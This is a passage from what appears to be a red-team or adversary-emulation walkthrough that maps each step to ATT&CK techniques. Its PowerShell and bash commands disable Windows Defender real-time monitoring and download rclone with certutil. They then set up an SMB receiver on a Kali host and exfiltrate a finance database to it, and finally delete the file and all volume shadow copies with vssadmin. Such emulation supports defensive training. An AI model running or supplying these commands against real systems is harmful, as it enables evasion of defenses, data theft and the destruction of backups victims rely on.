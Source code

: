 Let's now exfiltrate them over `rclone` similarly to Part 2.

But let's do one more quick additional step and disable Realtime Monitoring in Windows Defender on this system because it might complain about `rclone`:

**Step 20**
```PowerShell
[FINSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
```
ATT&CK Techniques: `T1562.001`

We can now download the `rclone` executable:

**Step 21**
```PowerShell
[FINSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1105`

And create a config file `C:\Temp\r.conf`:

**Step 22**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `T1105` `T1564` `T1048`

Then we start the SMB server on Kali:

```bash
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

And finally we exfiltrate the files that we want (make sure PowerShell is runnning with admin privileges):

**Step 23**
```PowerShell
[FINSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

Having exfiltrated the files, let's delete them and all shadow copies using `vssadmin` on the system to prevent the files to be restored:

**Step 24**
```PowerShell
[FINSERVER:PowerShell] rm C:\Users\Administrator\Documents\finance.db
[FINSERVER:PowerShell] vssadmin.exe delete shadows /all
```
ATT&CK Techniques: `T1490`

